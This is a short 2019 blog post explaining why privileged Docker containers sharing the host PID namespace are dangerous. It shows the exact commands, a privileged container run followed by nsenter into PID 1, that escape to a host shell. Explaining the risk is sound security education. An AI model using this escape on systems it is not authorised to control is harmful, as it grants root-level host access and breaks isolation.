 ```yaml
---
title: "#jailbreak - Escaping the container"
layout: post
date: 2019-05-25 15:00
headerImage: false
tag:
- Docker
- Privileged containers
- Root
star: false
category: blog
author: robertnorthard
description: #jailbreak - escaping the container
---
```


It's common knowledge that Docker containers should not be be run in privileged mode with a shared host PID namespace, but why? This example will provide a concrete example - it's simple.

````

$ docker-machine start default

$ docker run --privileged --rm --pid=host -ti ubuntu 

// This gives you access to the hosts file system
$ nsenter --target 1 --mount sh 

````

In summary, this enables you to break out of the container and access the hosts file system and execute shell commands. This is only one of many ways you can escape a container.

~ Robert
